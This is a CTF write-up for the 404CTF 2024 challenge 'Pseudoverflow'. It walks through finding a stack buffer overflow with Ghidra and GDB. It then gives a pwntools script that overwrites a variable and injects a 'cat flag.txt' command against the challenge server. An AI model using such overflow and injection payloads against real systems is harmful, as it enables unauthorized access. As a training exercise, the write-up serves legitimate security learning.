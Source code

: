 ```yaml
---
title: CTFs | 404CTF_2024 | Exploitation de Binaire | Pseudoverflow
author: BatBato
date: 2024-04-25
categories:
  - CTFs
  - 404_CTF_2024
  - Exploitation de Binaire
tags:
  - Binary
permalink: /CTFs/404_CTF_2024/Exploitation_de_Binaire/Pseudoverflow
---
```


# Pseudoverflow

![[pseudo_enonce.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_enonce.png)

Here we are given the [course](/Exploitation_de_Binaires/course) binray. When opened in `Ghidra`, we can see the following:

![[pseaudo_main.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseaudo_main.png)

> At first, we had two variables that had the hex values of `perds` and `\0`. But once we redefined the type of the first variable as an array of five characters it prints us like above.
{: .prompt-warning}

We understand here that we need to modify the content of the `var_to_modif` variable. 

If we look at the code in `GDB`, we can see where the variable is saved.

![[pseudo_gdb_main.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_gdb_main.png)

We set a breakpoint at the leave instruction and run the program. We use a payload `"A"*106+"B"*6` :

![[pseudo_gdb_var.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_gdb_var.png)

As we can see, we have overwritten the content of the variable. Now we need to put the correct value. For that, I used a python code:

```python
from pwn import *
gagne = 0x656e676167
cmd = b"cat flag.txt #"
my_len = 106 - len(cmd)
payload = cmd + b"A"*my_len + p64(gagne)

#p = process("./course")
SERV = "challenges.404ctf.fr"
PORT = 31958
p = remote(SERV, PORT)

print(p.recvuntil(b"pseudo :").decode())
print(payload.decode())
p.sendline(payload)
p.recvline().decode()
print("[+] FLAG : "+p.recvuntil(b"}").decode())
```

As you can see, I wrote my payload (`cat flag.txt #`) at the beginning and then used some `A`s as padding and finally, the overwrite is done by the hex value of the word `gagne`.  

> The `#` is very important. It allows to comment the rest of the payload. This allows us not to have an error when sending our shell-code.
{: .prompt-warning}

And we get the flag:

![[pseudo_flag.png]](https://raw.githubusercontent.com/Nouman404/nouman404.github.io/main/_posts/CTFs/404_CTF_2024/Exploitation_de_Binaires/Photos/pseudo_flag.png)

The flag is `404CTF{0v3rfl0w}`.
